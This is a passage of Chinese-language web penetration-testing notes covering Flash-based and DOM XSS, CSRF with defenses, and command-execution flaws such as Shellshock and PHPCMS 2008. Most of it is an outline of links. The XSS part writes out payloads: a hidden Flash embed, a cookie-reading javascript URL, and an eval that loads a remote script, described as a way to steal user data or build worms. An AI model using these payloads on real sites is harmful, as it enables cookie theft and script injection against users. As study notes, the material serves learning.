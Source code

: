                             <embed allowscriptaccess="always" width="0%" height="0%" pluginspage="http://www.macromedia.com/go/getflashplayer" type="application/x-shock-wave-flash" src="http://127.0.0.1/xss.swf"></embed>
                            ```
                        * swf content
                            - `getURL("javascript:alert(document.cookie)");`
                            - or 
                                ```
                                import flash.external.ExternalInterface;

                                ExternalInterface.call("eval","d=document;e=d.createElement('script');e.src='http://127.0.0.1/eXploit.js';d.body.appendChild(e);");//使用ExternalInterface.call()函数加载本地脚本文件，通过修改本地脚本文件内容我们可以进行盗取用户信息、用户邮件、钓鱼，编写蠕虫等操作。
                                ```
* DOM 型
    - Discuz 全版本存储型 DOM XSS
        + [Wooyun](http://cb.drops.wiki/bugs/wooyun-2015-099979.html)
        + [analysis](http://rickgray.me/discuz-all-version-stored-xss-analysis)
        + BBCode
        + 使用了原生的 `document.getElementById()` 函数来获取页面中的对应对象
            * 由于 JS 原生函数的原因，被服务器后端转义的引号会被重新是渲染回引号

# Skills - CSRF
* ichunqiu
    - ![csrf-1](/img\pen\csrf-1.png)
    - ![csrf-2](/img\pen\csrf-2.png)
* XSS vs CSRF
    - xss 利用站点内信任用户
    - CSRF 利用伪装来自受信任用户的请求来利用受信任的站点
* combination
    - csrf + sqli
    - csrf + command exec
    - csrf + xss
* [D-link DIR-600 路由器 CSRF漏洞](http://www.nxadmin.com/web/1237.html)
    - 没有验证请求的来源
    - 自己构造一个页面让用户访问然后对路由器发起一个请求
    - ![dlink-dir-600-csrf](/img\pen\dlink-dir-600-csrf.png)
* defense
    - 关了再开？不开多标签？
        + osx 为了加速 点 x 并完全退出
    - 检查 http referer 是否同域
    - 限制 session cookie 生命周期
    - 使用验证码
    - 在表单的隐藏表单项中使用一次性 token
        + 原理: 无法通过 ajax 等方式获取外域页面中的 token 值

# Skills - 命令执行漏洞
* [Bash 4.3 远程命令执行漏洞](http://blog.knownsec.com/2014/09/bash_3-0-4-3-command-exec-analysis/)
    - http://www.freebuf.com/vuls/44994.html
    - http://blog.sina.com.cn/s/blog_6b347b2a0102v3nc.html
    - http://www.antiy.com/response/CVE-2014-6271.html
    - 补丁白打，有人绕过
        + http://www.freebuf.com/news/44805.html
        + https://www.seebug.org/vuldb/ssvid-88877
* PHPCMS 2008 命令执行漏洞
    - http://lyx.dropsec.xyz/2016/06/07/phpcms_2008%E8%BF%9C%E7%A8%8B%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E/
    - http://www.cnblogs.com/sqyysec/p/7049953.html
    - 漏洞分析
        + 传参，被放到数据库中
        + select 然后 extract (array 转 变量)
        + 然后 string2array 中有 eval
    - 利用